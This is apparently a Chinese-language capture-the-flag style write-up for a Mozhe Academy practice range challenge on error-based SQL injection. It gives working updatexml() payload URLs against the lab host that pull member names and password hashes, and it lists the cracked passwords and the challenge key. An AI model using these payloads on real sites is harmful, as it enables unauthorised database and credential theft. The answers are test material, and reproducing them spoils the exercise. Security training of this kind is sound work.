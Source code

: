 ### SQL注入漏洞测试(报错盲注)

[SQL注入漏洞测试(报错盲注)_SQL注入_在线靶场_墨者学院_专注于网络安全人才培养 (mozhe.cn)](https://www.mozhe.cn/bug/detail/Ri9CaDcwWVl3Wi81bDh3Ulp0bGhOUT09bW96aGUmozhe)

1. 进入公告界面，id后加单引号，sql语句报错，存在注入点

2. 根据题目报错盲注提示，进行错误构造

   updatexml(xml_doument,XPath_string,new_value):该函数第一个参数是xml文档名，第二个参数是XPath格式的字符串（类似于html的标签，左右两边的符号得相同），第三个参数是新值

   本题中，不用管第一个和第三个参数，注意第二个参数位置要使用concat（）函数左右拼接一个特殊符号（16进制表示）

   ex：http://124.70.71.251:42235/new_list.php?id=1' and updatexml(1,concat(0x7e,(database()),0x7e),1)--+

   注意：必须使用concat函数拼接字符串成为XPath格式，左右少一个符号也会出现回显内容，最好两边都加上

3. 接下来通过database()处的回显用information_schema数据库依次查列名，表名，方式同其他手工注入

4. 查询字段：

   1. http://124.70.71.251:42235/new_list.php?id=1' and updatexml(1,concat(0x7e,(select group_concat(name) from member),0x7e),1)--+

   2. http://124.70.71.251:42235/new_list.php?id=1' and updatexml(1,concat(0x7e,(select group_concat(password) from member),0x7e),1)--+

      注意：1. 即使使用group_concat()也只能查出一个31位的MD5加密字符串，在其后加limit两次查出两个加密后密码

      

      http://124.70.71.251:42235/new_list.php?id=1' and updatexml(1,concat(0x7e,(select password from member limit 0,1),0x7e),1)--+

      XPATH syntax error: '~3114b433dece9180717f2b7de56b28a'

      

      http://124.70.71.251:42235/new_list.php?id=1' and updatexml(1,concat(0x7e,(select password from member limit 1,1),0x7e),1)--+

      XPATH syntax error: '~040a4aaad47c86bbbfdb3da8540e94f'

      

   3. 通过substr()函数截取得到最后一位：

      http://124.70.71.251:42235/new_list.php?id=1' and updatexml(1,concat(0x7e,(select group_concat(substr(password,32,1)) from member),0x7e),1)--+

      XPATH syntax error: '~3,4~'

5. 解密得到两个密码：528469，996952

6. 用第二个密码登录，得到key：mozhe3773716f325f6779063fd1fb497

所以该题最多显示31个字符！

